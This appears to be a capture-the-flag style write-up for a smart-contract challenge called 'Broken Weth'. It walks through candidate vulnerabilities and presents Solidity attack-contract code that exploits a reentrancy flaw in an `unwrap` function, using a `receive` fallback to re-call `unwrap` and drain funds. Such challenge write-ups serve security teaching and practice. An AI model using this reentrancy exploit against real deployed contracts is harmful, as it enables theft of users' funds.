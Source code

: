 # Broken Weth

Initial thoughts on possible vulnerability:
- [ ] OZ Address lib known constructor vulnerability
- [ ] `balanceOf` public map comes w/ getter used by `borrow` func in the `LendBrokenWeth` HOWEVER `IBrokenWeth` comes with interface for `balanceOf` Perhaps override opportunity?

- [x] `unwrap` function transfers funds before updating ledger
  - [x] Within the `unwrap` function there is a `Address.sendValue` TX. The code base warns of a reentrancy attack here
  - [x] Possibly use a dummy contract w/ a fallback function to recall `unwarp` and drain funds. 
- [ ] How can we insert an overriden balance check in `borrow` func that always returns `before` value (or ten)?

## The Plan

- [x] Create attacking contract w/
  - [x] Receive fall back func


## The Solution:

The meat and potatoes of the attack contract:

```
function attack() payable external {
        require(msg.value == 10 ether);
        WETH.deposit{value: 10 ether}();
        WETH.unwrap();
    }

    receive() external payable {
        if(toggle) {
            toggle = false;
            WETH.unwrap();
        }
    }
```

We pass in 10 eth to fulfill the requirments and use the vulnerability within the `unwrap` function to create a reentrant hack.